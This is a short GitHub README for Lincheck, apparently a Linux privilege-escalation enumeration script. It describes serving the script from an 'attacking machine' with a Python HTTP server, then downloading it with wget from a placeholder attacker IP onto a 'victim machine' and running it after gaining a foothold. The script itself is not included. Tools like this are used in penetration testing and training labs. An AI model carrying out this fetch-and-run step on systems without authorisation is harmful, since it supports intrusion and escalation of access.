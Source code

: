 # Lincheck
This is a linux privilege escalation checker tool that checks for common linux privilege escilation techniques.

Once you have get a initial foothold on a target machine than you can transfer this linux script on to the victim machine with python http server.

<h2>In Your Attacking Machine</h2> 

<code>git clone https://github.com/Vivek170952/Lincheck.git </code></br>

<code>cd Lincheck </code></br>

<code>python -m http.server 4444 </code></br>

<h2>In Your Victim Machine</h2>

<code>wget http://YOUR-IP:4444/linprivcheck.sh  </code></br>

<code>chmod +x linprivcheck.sh </code></br>

<code>./linprivcheck.sh</code></br>

This tool will save your lots of time inenumeration of machine and gives result in a good format.


https://user-images.githubusercontent.com/87767132/233546141-82fea8cb-db3a-4540-98c8-cb48c29588e5.mp4

